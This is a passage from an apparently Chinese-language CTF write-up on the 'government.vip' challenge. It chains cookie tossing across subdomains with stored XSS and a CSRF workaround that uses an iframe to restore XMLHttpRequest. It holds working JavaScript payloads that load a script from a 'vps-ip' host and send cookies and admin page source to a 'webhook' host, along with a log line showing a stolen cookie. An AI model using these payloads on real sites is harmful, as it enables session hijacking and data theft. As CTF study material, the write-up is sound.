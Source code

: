 在这种情况下，访问admin子域站时就会携带以下两条cookie

```
username="XSS; domain=.government.vip"
username="test; domain=admin.government.vip; path=/"
```

由于cookie的读取是无状态的，所以上面两条cookie在被后端解析时完全相同，选取哪条cookie完全取决于后端代码的实现，响应头指出后端框架是TornadoServer/4.4.2，会导致同名cookie后者覆盖前者，使我们的攻击实现

结合上面的，我们的大致思路是这样的：

主站xss来设置admin子域站的cookie值 然后再跳转到admin子域站 借由这里cookie的xss触发第二个xss

```html
<script>xss="<script src=//vps-ip/xss/test.js><\/script>";</script>
<script>document.cookie="username="+xss+"testxss;domain=.government.vip;path=\/;"</script>
<script>location.href='http://admin.government.vip:8000/';</script>
```

test.js 获取cookie

```js
location.href='http://webhook/?cookie='+escape(document.cookie);
```

可以成功获取数据

```bash
[Tue Mar 21 20:13:35 2017] 202.120.7.205:47632 [200]: /xss/xss_new.php?cookie=username%3Dadmin%3B%20username%3D%3Cscript%20src%3D//121.42.175.111%3A8080/xss/test.js%3E%3C/script%3Etestxss
```

admin的sessionid设置了HttpOnly，我们还得CSRF

由于admin子域站删除了一些函数，我们可以用`iframe`的骚操作来绕过

```html
<iframe id="sandbox"></iframe>
window.XMLHttpRequest=document.getElementById('sandbox').contentWindow.XMLHttpRequest;
```

可以构造ajax来读admin的页面源码

```html
<script>xss = "<iframe id=\"sandbox\"></iframe><script src=//vps-ip/xss/test.js><\/script>";</script>
<script>document.cookie="username="+xss+"testxss;domain=.government.vip;path=\/;"</script>
<script>location.href='http://admin.government.vip:8000/';</script>
```

test.js

```js
window.XMLHttpRequest = document.getElementById('sandbox').contentWindow.XMLHttpRequest;
var xhr = new XMLHttpRequest();

xhr.onreadystatechange=function(){
    if(xhr.readyState==4){
        if(xhr.status==200){
            data = xhr.responseText;
            imgsrc=document.createElement("img");
            imgsrc.src = "http://webhook/?cookie=" + escape(data);
        }
    }
};
xhr.open("get","/");
xhr.send();
```
